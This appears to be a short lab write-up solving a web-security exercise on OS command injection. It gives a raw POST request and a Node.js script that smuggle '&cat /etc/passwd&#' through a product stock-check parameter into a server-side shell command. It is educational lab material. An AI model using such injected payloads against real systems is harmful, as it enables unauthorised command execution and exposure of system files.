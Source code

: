 # 1 - Simple

### Notes

The product stock check feature passed improperly sanitized data to an operating system command.

```http
POST /product/stock HTTP/1.1

productId=1%26cat+/etc/passwd%26%23&storeId=1
```

### Scripted Solution

```javascript
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  const command = 'cat /etc/passwd'

  console.log(`Executing ${command}...`)
  const res = await axios.post(
    `${labUrl}/product/stock`,
    // Command something like: 'stockChecker.pl 123 &<command>&#456'
    `productId=123%26${command}%26%23&storeId=456`
  )
  console.log(res.data)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
